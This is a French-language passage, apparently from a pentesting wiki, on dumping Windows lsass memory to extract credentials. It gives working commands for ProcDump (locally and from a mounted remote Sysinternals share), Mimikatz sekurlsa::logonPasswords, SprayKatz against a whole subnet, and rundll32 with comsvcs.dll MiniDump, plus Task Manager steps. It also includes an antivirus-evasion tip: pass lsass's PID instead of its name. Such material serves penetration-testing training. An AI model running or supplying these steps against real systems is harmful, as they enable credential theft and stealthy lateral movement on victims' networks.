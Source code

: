 ### Procdump + Mimikatz

Comme **Procdump de** [**SysInternals** ](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**est un outil légitime de Microsoft**, il n'est pas détecté par Defender.\
Vous pouvez utiliser cet outil pour **extraire le processus lsass**, **télécharger le dump** et **extraire** les **identifiants localement** à partir du dump.
```bash:Dump lsass
#Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
#Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```c:Extract credentials from the dump
//Load the dump
mimikatz # sekurlsa::minidump lsass.dmp
//Extract credentials
mimikatz # sekurlsa::logonPasswords
```
Ce processus est effectué automatiquement avec [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24`

**Remarque**: Certains **AV** peuvent **détecter** comme **malveillant** l'utilisation de **procdump.exe pour dumper lsass.exe**, cela est dû au fait qu'ils **détectent** la chaîne **"procdump.exe" et "lsass.exe"**. Il est donc **plus discret** de **passer** comme **argument** le **PID** de lsass.exe à procdump **au lieu de** le **nom lsass.exe.**

### Dumper lsass avec **comsvcs.dll**

Une DLL nommée **comsvcs.dll** trouvée dans `C:\Windows\System32` est responsable de **dumper la mémoire du processus** en cas de crash. Cette DLL inclut une **fonction** nommée **`MiniDumpW`**, conçue pour être invoquée en utilisant `rundll32.exe`.\
Il est sans importance d'utiliser les deux premiers arguments, mais le troisième est divisé en trois composants. L'ID du processus à dumper constitue le premier composant, l'emplacement du fichier de dump représente le second, et le troisième composant est strictement le mot **full**. Aucune option alternative n'existe.\
Après avoir analysé ces trois composants, la DLL est engagée à créer le fichier de dump et à transférer la mémoire du processus spécifié dans ce fichier.\
L'utilisation de **comsvcs.dll** est faisable pour dumper le processus lsass, éliminant ainsi le besoin de télécharger et d'exécuter procdump. Cette méthode est décrite en détail à [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords).

La commande suivante est utilisée pour l'exécution :
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
```
**Vous pouvez automatiser ce processus avec** [**lssasy**](https://github.com/Hackndo/lsassy)**.**

### **Dumping lsass avec le Gestionnaire des tâches**

1. Faites un clic droit sur la barre des tâches et cliquez sur Gestionnaire des tâches
2. Cliquez sur Plus de détails
3. Recherchez le processus "Local Security Authority Process" dans l'onglet Processus
4. Faites un clic droit sur le processus "Local Security Authority Process" et cliquez sur "Créer un fichier de vidage".
